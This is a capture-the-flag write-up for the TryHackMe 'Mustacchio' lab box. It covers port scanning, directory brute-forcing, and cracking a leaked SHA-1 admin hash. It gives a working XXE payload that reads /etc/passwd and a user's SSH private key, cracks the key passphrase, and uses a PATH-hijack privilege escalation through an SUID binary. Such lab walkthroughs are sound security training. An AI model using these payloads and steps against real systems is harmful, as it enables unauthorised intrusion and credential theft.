






# [Mustacchio](https://tryhackme.com/room/mustacchio)

First as always, `nmap`

```
# Nmap 7.91 scan initiated Sat Jul 24 06:27:37 2021 as: nmap -vvv -p 22,80,8765 -sCV -oN nmap 10.10.137.9
Nmap scan report for box.ip (10.10.137.9)
Host is up, received syn-ack (0.23s latency).
Scanned at 2021-07-24 06:27:38 UTC for 46s

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2WTNk2XxeSH8TaknfbKriHmaAOjRnNrbq1/zkFU46DlQRZmmrUP0uXzX6o6mfrAoB5BgoFmQQMackU8IWRHxF9YABxn0vKGhCkTLquVvGtRNJjR8u3BUdJ/wW/HFBIQKfYcM+9agllshikS1j2wn28SeovZJ807kc49MVmCx3m1OyL3sJhouWCy8IKYL38LzOyRd8GEEuj6QiC+y3WCX2Zu7lKxC2AQ7lgHPBtxpAgKY+txdCCEN1bfemgZqQvWBhAQ1qRyZ1H+jr0bs3eCjTuybZTsa8aAJHV9JAWWEYFegsdFPL7n4FRMNz5Qg0BVK2HGIDre343MutQXalAx5P
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCEPDv6sOBVGEIgy/qtZRm+nk+qjGEiWPaK/TF3QBS4iLniYOJpvIGWagvcnvUvODJ0ToNWNb+rfx6FnpNPyOA0=
|   256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGldKE9PtIBaggRavyOW10GTbDFCLUZrB14DN4/2VgyL
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    syn-ack nginx 1.10.3 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 24 06:28:24 2021 -- 1 IP address (1 host up) scanned in 47.12 seconds
```

Port 80 is a site with nothing special off the bat, while port 8765 is a login page. We don't have credentials for the login so let's dir-bust the page on port 80.

```sh
$ gobuster dir -u http://box.ip/ -w /path/to/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

/images               (Status: 200) [Size: 6161]
/custom               (Status: 200) [Size: 1109]
/fonts                (Status: 200) [Size: 1137]
```

Going into `/custom` and manually going to `/custom/js`, we find `users.bak` so let's download it.

```sh
$ file users.bak
users.bak: SQLite 3.x database, last written using SQLite version 3034001
```

The file is a SQLite database so we'll open it with `sqlite3`. Inside it, we can look around for tables of interest and dump them.

```sqlite3
sqlite> .tables
users

sqlite> .dump users
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users(username text NOT NULL, password text NOT NULL);
INSERT INTO users VALUES('admin','1868e36a6d2b17d4c2745f1659433a54d4bc5f4b');
COMMIT;
```

We found the user "admin" and their password hash.

```sh
$ hashid 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b -j
Analyzing '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b'
[+] SHA-1 [JtR Format: raw-sha1]
[+] Double SHA-1
[+] RIPEMD-160 [JtR Format: ripemd-160]
[+] Haval-160
[+] Tiger-160
[+] HAS-160
[+] LinkedIn [JtR Format: raw-sha1-linkedin]
[+] Skein-256(160)
[+] Skein-512(160)

```

It looks like a SHA1 hash. You can crack it with john, hashcat, or [crackstation](https://crackstation.net/) to get the password.

With the password cracked, we can log into the service on port 8765. Looking at the page's source code, we see an interesting comment.



> Barry, you can now SSH in using your key!

Looks like we'll have to look for Barry's SSH key.

Here we can only post comments, so let's put it through Burp and see what's going on.



We seem to be `POST`ing XML data, so let's test for XXE (eXternal XML Entity) vulnerabilities. Looking at the response, we see and interesting comment.



```js
document.cookie = "Example=/auth/dontforget.bak";
```

It seems there's a `dontforget.bak` file we can grab. Looking at the file, we see that a valid comment has the following format:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name></name>
  <author></author>
  <com></com>
</comment>
```

Knowing that, I crafted an XXE payload to exfiltrate `/etc/passwd` and put it in the comment box and pressed "Submit" and got the contents of `/etc/passwd`.



After confirming XXE works, we exfiltrate Barry's SSH key - his `id_rsa` - with the following payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&name;</name>
  <author>author</author>
  <com>comments</com>
</comment>
```




With that, we should be able to SSH into the box, right? Well no. The key is password-protected so we have to crack it.

```sh
$ ssh2john id_rsa > id_rsa.john
$ john --wordlist= id_rsa.john
```

With this, we should have an SSH shell on the machine.

Looking for SUID binaries, we find an interesting file: `/home/joe/live_log`

```sh
barry@mustacchio:~$ find / -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```

Looking into the file ...

```sh
barry@mustacchio:~$ ls -l /home/joe/live_log
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 /home/joe/live_log

barry@mustacchio:~$ file /home/joe/live_log
/home/joe/live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped

barry@mustacchio:~$ strings /home/joe/live_log
[snip]
tail -f /var/log/nginx/access.log
```

... we see that it's a file running `tail` as root. Notice that it's running `tail` *without* a full/absolute path. With this, we can control and exploit the `$PATH` to make it run our own `tail` binary.


```sh
$ echo "/bin/bash -p" > tail
$ chmod +x tail
$ export PATH=".:$PATH"
$ /home/joe/live_log
```

With that, we should have a root shell.
